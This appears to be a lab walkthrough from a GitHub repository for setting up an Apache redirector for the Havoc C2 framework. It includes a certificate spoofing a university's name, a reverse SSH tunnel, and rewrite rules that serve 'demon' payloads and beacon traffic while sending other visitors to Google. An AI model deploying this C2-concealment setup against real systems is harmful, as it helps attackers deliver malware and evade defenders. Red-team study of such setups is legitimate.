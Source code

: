 # Redirector

1. SSH into Redirector with user `redirector` and password `havoc`.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ssh redirector@192.168.231.129
redirector@192.168.231.129's password: havoc
```

2. Initialize Apache service on Redirector.
```
redirector@redirector:~$ sudo systemctl restart apache2
[sudo] password for redirector: havoc
```

3. Generate SSL keypair on Attacker Linux.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key
Generating a RSA private key
................................................++++
....................++++
writing new private key to 'private.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:MY
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:KL
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Asia Pacific University
Organizational Unit Name (eg, section) []:APU
Common Name (e.g. server FQDN or YOUR name) []:apu.edu.my
Email Address []:
```

4. Copy and paste `private.key` file to Redirector.
```
redirector@redirector:~$ sudo vim /etc/ssl/private/private.key
```
> Use `:wq` to save and quit; `:qa` to cancel save and quit in Vim

5. Copy and paste `public.crt` file to Redirector.
```
redirector@redirector:~$ sudo vim /etc/ssl/certs/public.crt
```

6. Navigate to `https://192.168.231.129` and inspect self-signed SSL certificate.

![](./ssl_cert.png)

7. Create HTTPS Listener for Traffic Redirection.

![](./redirector_listener.png)

8. Generate SSH keypair for SSH tunneling.
```
redirector@redirector:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/redirector/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/redirector/.ssh/id_rsa
Your public key has been saved in /home/redirector/.ssh/id_rsa.pub
```

> Copy contents of `/home/redirector/.ssh/id_rsa.pub` and save as `redirector` (identity file) in Attacker Linux

9. On Attacker Linux VM, setup a SSH tunnel to Redirector.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ssh -N -R 8443:localhost:443 -i redirector redirector@192.168.231.129
```

9. Verify SSH tunneling from Redirector.
```
redirector@redirector:~$ sudo ss -ltnp
State           Recv-Q          Send-Q                     Local Address:Port                     Peer Address:Port          Process                                   
LISTEN          0               128                            127.0.0.1:8443                          0.0.0.0:*              users:(("sshd",pid=1769,fd=9))           
```

10. Customize `.htaccess` file under `/var/www/html` and restart Apache service.
```
redirector@redirector:~$ sudo vim /var/www/html/.htaccess
```

```
RewriteEngine on

RewriteCond %{REQUEST_URI} "demon.exe" [NC,OR]
RewriteCond %{REQUEST_URI} "demon.bin" [NC]
RewriteRule ^.*$ "https://localhost:9090%{REQUEST_URI}" [P]

RewriteCond %{HTTP_USER_AGENT} "DuckDuckGo" [NC]
RewriteRule ^.*$ "https://localhost:8443%{REQUEST_URI}" [P]

RewriteRule ^.*$ "https://www.google.com" [L,R=302]
```

```
redirector@redirector:~$ sudo systemctl restart apache2
```

11. Revisiting `https://192.168.231.129` will redirect you to google.com.
